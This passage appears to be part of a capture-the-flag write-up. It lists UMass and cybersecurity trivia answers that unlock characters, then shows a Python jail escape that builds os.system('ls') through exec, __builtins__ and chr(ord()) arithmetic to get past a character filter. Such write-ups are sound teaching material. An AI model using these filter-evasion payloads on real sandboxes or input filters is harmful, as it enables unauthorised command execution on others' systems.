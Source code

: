 15. Cybersecurity Yesterday 500 - DoD wrote this during the cold war

16. Cybersecurity Now 100 - According to UMaryland Professor, a hacker attacks computers on average every ___ seconds? `39`  
    Correct! You have been awarded the following characters: ':'

17. Cybersecurity Now 200 - University of Michigan researchers controlled a Google Home from 230 feet away with what? `laser`  
    Correct! You have been awarded the following characters: ')'

18. Cybersecurity Now 300 - Band that was recently threatened to have unreleased music released unless they pay the hackers money: `Radiohead`  
    Correct! You have been awarded the following characters: '+'

19. Cybersecurity Now 400 - This company recently had their source code accessed in a huge breach: `Microsoft`  
    Correct! You have been awarded the following characters: '_', '<'

20. Cybersecurity Now 500 - What is a fairly new way to find electronics that law enforcement are using, i.e. Subway scandal

21. UMass 100 - What is the name of the mascot of UMass? `Sam the Minuteman`  
    Correct! You have been awarded the following characters: '('

22. UMass 200 - What is UMass most famously known for being #1 for? `food`  
    Correct! You have been awarded the following characters: '{'

23. UMass 300 - What dining hall is hard-serve ice cream served at on campus everyday? `Franklin`  
    Correct! You have been awarded the following characters: '}'

24. UMass 400 - Where was the old honors college located? `Orchard Hill Area`  
    Correct! You have been awarded the following characters: 'x'

25. UMass 500 - This flag was raised from a dorm in the central housing area in the 90s due to unrest from the residents: `Jolly Roger`  
    Correct! You have been awarded the following characters: 's', 't', 'u', 'v'

So far, I have access to `(){},~:+_<%.1` and `abcdefghi[j][k][l]mno[p]rstuvwxyz`. Not all the questions are answered, but I have to settle with what I have got.
The approach I have used is similar to what worked for the [`ekrpat`](#ekrpat) challenge.
```python
exec('''__builtins__.__dict__['__import__']('os').__dict__['system']('ls')''')
```

These are my workarounds for the characters/letters which I am not allowed to type in:

```python
chr(ord('i')+1) # j
chr(ord('i')+1+1) # k
chr(ord('i')+1+1+1) # l
chr(ord('o')+1) # p
chr(ord(':')+11+11+11) # [
chr(ord('<')+11+11+11) # ]
chr(ord('%')+1+1) # ' - strangely '''text''' failing to escape ' sometimes.
```

I have replaced all the non-allowed letters/characters with my workarounds to constructed the code.

```python
exec(chr(ord('o')+1) + 'rint(__bui' + chr(ord('i')+1+1+1)+ 'tins__.__dict__' + chr(ord(':')+11+11+11) + ''''__im''' + chr(ord('o')+1) + 'ort__' + chr(ord('%')+1+1) + chr(ord('<')+11+11+11) + '''('os').__dict__''' + chr(ord(':')+11+11+11) + ''''system''' + chr(ord('%')+1+1) + chr(ord('<')+11+11+11) + '(' + chr(ord('%')+1+1) + chr(ord('i')+1+1+1) + 's' + chr(ord('%')+1+1) + '))')
```